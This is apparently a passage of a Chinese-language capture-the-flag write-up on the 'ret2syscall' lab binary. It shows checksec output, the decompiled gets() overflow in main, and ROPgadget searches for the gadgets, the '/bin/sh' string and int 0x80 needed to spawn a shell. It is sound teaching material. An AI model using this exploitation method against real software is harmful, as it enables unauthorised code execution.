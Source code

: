 ### 2.2漏洞利用的实现

先检查文件的信息和保护机制
>task / checksec ret2syscall
> [ * ]  '/home/pwn/task/ret2syscall'
> Arch:     i386-32-little
> RELRO:    Partial RELRO
> __Stack:    No canary found__
> NX:       NX enabled
>  PIE:      No PIE (0x8048000)
>  task $ file ret2syscall    
> ret2syscall: ELF __32-bit__ LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for 
> GNU/Linux 2.6.24, 

利用ida pro对文件进行分析并得到main函数的源

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

观察到可被利用的gets()函数，然后利用ROPgadget和grep寻找语句块 

> task$ ROPgadget --binary ret2syscall --only "pop|ret" |grep eax
> 0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
> __0x080bb196 : pop eax ; ret__
> 0x0807217a : pop eax ; ret 0x80e
> 0x0804f704 : pop eax ; ret 3
> 0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
>
> task$ ROPgadget --binary ret2syscall --only "pop|ret" |grep ebx
> 0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
> 0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
> 0x0806eb91 : pop ecx ; pop ebx ; ret
> 0x0806336b : pop edi ; pop esi ; pop ebx ; ret
> __0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret__
> 0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
>
> task$ ROPgadget --binary ret2syscall --string "/bin/sh"        
> Strings information
> __0x080be408 : /bin/sh__
>
> task$ ROPgadget --binary ret2syscall --only "int"     
> Gadgets information
> __0x08049421 : int 0x80__
